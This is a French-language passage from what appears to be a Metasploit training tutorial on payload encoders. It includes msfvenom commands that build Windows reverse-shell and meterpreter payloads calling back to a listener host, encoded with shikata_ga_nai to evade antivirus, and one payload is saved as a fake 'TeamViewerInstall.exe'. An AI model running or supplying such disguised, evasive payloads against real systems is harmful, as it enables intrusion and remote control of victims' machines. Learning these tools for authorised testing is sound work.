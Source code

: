 {% code overflow="wrap" fullWidth="true" %}
```bash
msfvenom -a x86 --platform windows -p windows/shell/reverse_tcp LHOST=127.0.0.1 LPORT=4444 -b "\x00" -f perl -e x86/shikata_ga_nai
```
{% endcode %}

<mark style="color:green;">**Commandes utiles dans msfconsole**</mark>

Lorsque vous êtes dans `msfconsole`, vous pouvez utiliser la commande `show encoders` pour afficher les encoders compatibles avec le module d'exploitation et le payload choisis.

**Exemple :**

```bash
msf6 exploit(windows/smb/ms17_010_eternalblue) > show encoders
```

Cela affiche les encoders compatibles avec le module d'exploitation sélectionné.

<mark style="color:green;">**Sélectionner un Encoder spécifique**</mark>

Lors de la sélection d'un encoder, plusieurs options sont disponibles selon l'architecture cible. Par exemple, si vous utilisez une architecture x64, vous trouverez des encoders comme `x64/xor` ou `x64/xor_dynamic`.

<mark style="color:green;">**Exemple d'encoders disponibles pour x86 :**</mark>

* `x86/shikata_ga_nai` : Encoder polymorphe XOR avec rétroaction.
* `x86/countdown` : Encoder XOR avec un compte à rebours.
* `x86/jmp_call_additive` : Encoder XOR avec retour d'ajout.

<mark style="color:green;">**Impact des Encoders sur la détection par les antivirus**</mark>

Bien que l'encodage puisse rendre la détection plus difficile, les antivirus modernes ont amélioré leur capacité à détecter les techniques utilisées par des encoders comme Shikata Ga Nai. Par conséquent, un seul encodage ne garantit pas que le payload passera inaperçu.

<mark style="color:green;">**Amélioration de l'évasion avec des itérations multiples**</mark>

Pour augmenter les chances de contourner les détections, vous pouvez appliquer plusieurs itérations du même encoder. Par exemple, utiliser 10 itérations de Shikata Ga Nai :

{% code overflow="wrap" fullWidth="true" %}
```bash
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=10.10.14.5 LPORT=8080 -e x86/shikata_ga_nai -f exe -i 10 -o TeamViewerInstall.exe
```
{% endcode %}

Cela génère un payload qui passe par 10 itérations d'encodage, augmentant ainsi les chances d'évasion.

***

## <mark style="color:red;">Utilisation des Bases de Données dans MSFConsole</mark>

<mark style="color:green;">**Introduction**</mark>

